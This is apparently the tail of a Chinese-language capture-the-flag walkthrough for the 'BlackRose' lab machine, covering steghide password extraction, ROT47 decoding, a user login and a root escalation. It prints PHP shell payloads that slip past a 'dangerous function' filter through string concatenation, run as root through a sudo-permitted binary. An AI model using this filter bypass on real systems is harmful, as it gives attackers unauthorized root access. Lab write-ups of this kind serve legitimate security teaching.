
AES解密后得到密文
这个密文完全不知道是干啥用的

然而这个文字的作用却是web页面背景图片隐写的密码

```bash
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ steghide extract -sf background-image.jpg
Enter passphrase: 
wrote extracted data to "password".
                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ ls
background-image.jpg  hash.txt  hydra.restore  id_rsa  passwd.txt  password  sshhash.txt
                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ cat password           
s)M8Z=7|8/&YY-zK5L$.w3Su'Q@nGR
```

这下又得到一个密文
s)M8Z=7|8/&YY-zK5L$.w3Su'Q@nGR

直接去登yourname账号
登陆失败了
那么要去解密
看题解写的rot47，就算去解了47我也想不到明文是这个。



DX|g+lfMg^U**\Kzd{S]Hb$FV"o?v#
现在去登陆yourname
```bash
delx@BlackRose:~$ su yourname
Password: 
yourname@BlackRose:/home/delx$ cd ../yourname
yourname@BlackRose:~$ ls -la
total 36
drwx------ 5 yourname yourname 4096 Dec  5  2019 .
drwxr-xr-x 4 root     root     4096 Nov  9  2019 ..
lrwxrwxrwx 1 yourname yourname    9 Dec  3  2019 .bash_history -> /dev/null
-rw-r--r-- 1 yourname yourname  220 Nov  7  2019 .bash_logout
-rw-r--r-- 1 yourname yourname 3765 Dec  3  2019 .bashrc
drwx------ 2 yourname yourname 4096 Dec  5  2019 .cache
drwx------ 3 yourname yourname 4096 Nov  7  2019 .gnupg
drwxrwxr-x 3 yourname yourname 4096 Nov  8  2019 .local
-rw-r--r-- 1 yourname yourname  807 Nov  7  2019 .profile
-rw-r--r-- 1 yourname yourname   33 Nov 13  2019 user.txt
yourname@BlackRose:~$ cat user.txt
688286be9a2df84e90122da12cd7ea2e
```
sudo -l能够执行，看到有一个blackrose的命令
以root身份运行一下试试


```bash
yourname@BlackRose:~$ echo '<?php system('/bin/bash'); ?>' >1.php
yourname@BlackRose:~$ sudo -u root /usr/bin/blackrose 
File read~# /home/yourname/1.php
Dangerous function found
```
能运行php但是有过滤

```bash
yourname@BlackRose:~$ echo '<?php system('/bin/bash'); ?>' >1.php
yourname@BlackRose:~$ sudo -u root /usr/bin/blackrose 
File read~# /home/yourname/1.php
Dangerous function found
yourname@BlackRose:~$ echo '<?php (sy).stem('/bin/bash'); ?>' >1.php
yourname@BlackRose:~$ sudo -u root /usr/bin/blackrose
File read~# /home/yourname/1.php
Dangerous function found
yourname@BlackRose:~$ echo '<?php (sy.(st).em)('/bin/bash'); ?>' >1.php
yourname@BlackRose:~$ sudo -u root /usr/bin/blackrose
File read~# /home/yourname/1.php
Dangerous function found
yourname@BlackRose:~$ echo '<?php (sy.(st).em)('/bin/sh'); ?>' >1.php
yourname@BlackRose:~$ sudo -u root /usr/bin/blackrose
File read~# /home/yourname/1.php
PHP Parse error:  syntax error, unexpected '/' in /home/yourname/1.php on line 1
yourname@BlackRose:~$ echo "<?php (sy.(st).em)('/bin/sh'); ?>" >1.php
yourname@BlackRose:~$ sudo -u root /usr/bin/blackrose
File read~# /home/yourname/1.php
PHP Warning:  Use of undefined constant sy - assumed 'sy' (this will throw an Error in a future version of PHP) in /home/yourname/1.php on line 1
PHP Warning:  Use of undefined constant st - assumed 'st' (this will throw an Error in a future version of PHP) in /home/yourname/1.php on line 1
PHP Warning:  Use of undefined constant em - assumed 'em' (this will throw an Error in a future version of PHP) in /home/yourname/1.php on line 1
whoami
root
ls /root
root.txt
cat /root/root.txt
     _                   _                           _                   
    | | _____      _____| |   __      ____ _ ___    | |__   ___ _ __ ___ 
 _  | |/ _ \ \ /\ / / _ \ |   \ \ /\ / / _` / __|   | '_ \ / _ \ '__/ _ \
| |_| |  __/\ V  V /  __/ |    \ V  V / (_| \__ \   | | | |  __/ | |  __/
 \___/ \___| \_/\_/ \___|_|     \_/\_/ \__,_|___/   |_| |_|\___|_|  \___|
                                                                The box made by Jewel                               


7dcbcf000f38c8d2c0024011899ec84e

I thank you so much for playing - Jewel :)
```